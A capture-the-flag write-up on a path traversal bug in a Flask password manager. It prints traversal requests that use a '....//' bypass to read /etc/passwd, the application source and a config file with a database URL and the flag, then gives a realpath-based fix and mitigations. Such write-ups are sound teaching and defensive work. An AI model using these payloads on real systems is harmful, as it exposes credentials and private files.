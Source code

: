 # Password Manager Path Traversal

**Category:** Web  
**Difficulty:** Medium  
**Points:** 250  
**Event:** Sample CTF 2024

## Challenge Description

A new password manager web application has been deployed. The developer claims it's secure, but can you find a way to access sensitive files on the server?

**URL:** `http://ctf.example.com:8080`

## Initial Reconnaissance

Upon visiting the application, I found a simple password manager interface with the following features:

- User registration and login
- Password storage and retrieval
- File upload functionality for "backup exports"
- Profile management

The application appeared to be built with Python Flask and had several interesting endpoints:

- `/login` - User authentication
- `/dashboard` - Main password manager interface  
- `/upload` - File upload for backup imports
- `/download/<filename>` - Download backup files
- `/profile` - User profile management

## Vulnerability Discovery

### 1. Directory Traversal in Download Endpoint

While exploring the download functionality, I noticed that the application allows users to download their backup files via the `/download/<filename>` endpoint.

Testing the endpoint with various payloads:

```bash
# Normal request
GET /download/backup.json
# Response: 200 OK - Returns backup file

# Path traversal attempts
GET /download/../../../etc/passwd
# Response: 403 Forbidden

GET /download/..%2F..%2F..%2Fetc%2Fpasswd  
# Response: 403 Forbidden

GET /download/....//....//....//etc/passwd
# Response: 200 OK - Success!
```

The application was vulnerable to a path traversal attack using the `....//` bypass technique.

### 2. File System Exploration

With the path traversal vulnerability confirmed, I began exploring the server's file system:

```bash
# Check system information
GET /download/....//....//....//etc/os-release
# Confirmed: Ubuntu 20.04 LTS

# Look for application files
GET /download/....//....//....//proc/self/cmdline
# Found: python3 /app/main.py

# Check application directory
GET /download/....//....//....//app/main.py
# Response: 200 OK - Source code retrieved!
```

## Exploitation

### Source Code Analysis

The downloaded source code revealed several critical issues:

```python
@app.route('/download/<filename>')
@login_required
def download_file(filename):
    # Vulnerable path construction
    file_path = os.path.join(UPLOAD_DIR, filename)
    
    # Insufficient path validation
    if '../' in filename:
        return "Access denied", 403
        
    return send_file(file_path)
```

The validation only checked for `../` but didn't account for other traversal techniques like `....//`.

### Finding the Flag

Based on the source code analysis, I discovered that the application stores a configuration file with database credentials:

```bash
GET /download/....//....//....//app/config.py
```

The config file contained:

```python
DATABASE_URL = "postgresql://user:password@localhost/pwmanager"
SECRET_KEY = "CTF{tr4v3rs4l_bugs_4r3_3v3rywh3r3!}"
```

## Flag

`CTF{tr4v3rs4l_bugs_4r3_3v3rywh3r3!}`

## Tools Used

- **Burp Suite** - For intercepting and modifying requests
- **curl** - For command-line testing
- **Browser Developer Tools** - For initial reconnaissance

## Mitigation

To prevent this vulnerability:

1. **Proper Input Validation**: Implement comprehensive path validation that blocks all traversal patterns
2. **Whitelist Approach**: Only allow downloads of files from a predefined list
3. **Sandboxing**: Store user files in a sandboxed directory with proper permissions
4. **Path Canonicalization**: Use `os.path.realpath()` to resolve and validate paths

```python
import os

def secure_download(filename):
    # Canonicalize the path
    safe_path = os.path.realpath(os.path.join(UPLOAD_DIR, filename))
    
    # Ensure the file is within the upload directory
    if not safe_path.startswith(os.path.realpath(UPLOAD_DIR)):
        return "Access denied", 403
        
    return send_file(safe_path)
```

## Lessons Learned

1. **Defense in Depth**: Multiple layers of validation are crucial
2. **Input Sanitization**: Never trust user input, even authenticated users
3. **Regular Security Audits**: Code review should include security considerations
4. **Principle of Least Privilege**: Limit file system access to only what's necessary

---

*This writeup demonstrates a common web application vulnerability. Always ensure proper input validation and follow secure coding practices.*
